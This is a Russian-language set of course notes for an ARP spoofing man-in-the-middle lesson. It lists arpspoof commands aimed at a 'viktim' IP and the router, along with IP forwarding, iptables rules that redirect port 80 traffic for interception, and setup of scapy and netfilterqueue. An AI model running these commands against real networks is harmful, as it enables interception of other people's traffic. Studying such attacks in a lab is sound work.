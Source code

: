 <!-- sudo apt-get install python3-scapy -->

<!-- sudo apt install dsniff -->
<!--  sudo arpspoof -i wlo1 -t 192.168.0.101 192.168.0.1 -->
<!-- sudo arpspoof -i wlo1 -t {viktim ip} {router ip} -->




<!-- MAC - Media access control address  -->
<!-- ARP - Address Resolution Protocol  -->

iptables -L

Chain FORWARD (policy DROP)
Chain FORWARD (policy ACCEPT)

iptables -P FORWARD ACCEPT

<!-- sudo echo 1 > /proc/sys/net/ipv4/ip_forward -->
<!-- OR -->
<!-- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward' -->

 <!--
 41 lesson
  и чекайте, чтобы напротив Chain FORWARD, Было именно (policy ACCEPT), а не (policy DROP). 
Если есть (policy DROP), пробуйте прописать "iptables -P FORWARD ACCEPT".
Хотя и инет вроде как есть, в плане я пингую DNS гугла, но зайти куда-то не могу еще. -->
<!-- После этой команды вроде все норм работает, как ping, так и везде могу зайти и в арп таблице (mac атакующей машины)
"iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080"
еще чекну перехват пакетов через wireshark, потом напишу результаты. 


Mini elephant
9 months ago
После этой команды вроде все норм работает, как ping, так и везде могу зайти и в арп таблице (mac атакующей машины)
"iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080"
еще чекну перехват пакетов через wireshark, потом напишу результаты.
Тырканите если вдруг поленюсь сюда писать. Попробую помочь, но не факт, я рил ленивый

-->


<!-- sudo apt install python3-pip git libnfnetlink-dev libnetfilter-queue-dev
pip3 install -U git+https://github.com/kti/python-netfilterqueue -->
<!-- apt-get install build-essential python-dev libnetfilter-queue-dev -->
<!-- sudo pip3 install NetfilterQueue -->

<!-- Установил netfilter всего 2 командами мб кому пригодится:
apt install python3-pip git libnfnetlink-dev libnetfilter-queue-dev
pip3 install -U git+https://github.com/kti/python-netfilterqueue -->

<!-- https://unix.stackexchange.com/questions/410579/change-the-python3-default-version-in-ubuntu -->



ifconfig
ip a
route -n

<!-- show arp table -->
arp -a

sudo apt-get install python3-scapy

scapy-python3